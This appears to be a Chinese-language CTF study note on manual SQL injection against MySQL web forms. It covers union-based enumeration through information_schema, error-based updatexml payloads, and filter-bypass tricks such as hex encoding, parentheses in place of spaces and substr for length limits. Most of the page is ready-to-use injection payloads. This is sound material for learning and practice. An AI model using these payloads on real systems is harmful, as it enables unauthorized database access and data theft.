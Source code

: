 ```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。

### 手注变种：报错注入
https://www.cnblogs.com/c1047509362/p/12806297.html
1. `1'or(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))='1` 爆出数据库
1. `1'or(updatexml(1,concat(0x7c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7c),1))='1` 爆当前数据库表信息
1. `1'or(updatexml(1,concat(0x7c,(select(group_concat(column_name))from(information_schema.columns)where(table_schema='test')and(table_name='user')),0x7c),1))='1` 爆user表字段信息
1. `1'or(updatexml(1,concat(0x7e,(select group_concat(flag) from lession2.flag)),1))='1` 爆数据库内容
ref：https://www.codenong.com/cs106450896/

#### 报错注入变种：无单引号版
1. `aid=(select%201%20and%201=updatexml(1,concat(0x7e,(select(user())),0x7e),1))&target=1`


### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。使用substr截取需要的部分回显`updatexml(1,concat(0x7e,substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,32),0x7e),1)`,`1'or(updatexml(1,concat(0x7c,substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema='test')and(table_name='user')),1,32),0x7c),1))='1`,`1'or(updatexml(1,concat(0x7e,substr((select group_concat(flag) from lession2.flag),31,61),0x7c),1))='1`
1. substr不能用：利用not in。`(select%201%20and%201=updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where table_schema=database() and table_name not in(0x6e657773)),0x7e),1))&target=1`，注意not in里面必须有内容，然后一点点添加不需要的表名，筛选出需要的表名。
1. 单引号被转义为\：用0x5C替代单引号
ref：https://www.cnblogs.com/lwfiwo/p/11314408.html
1. 引号绕过导致table_name='user'不能用：user转换成十六进制编码0x7573657273
    ref：https://blog.csdn.net/weixin_39846361/article/details/113301753

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
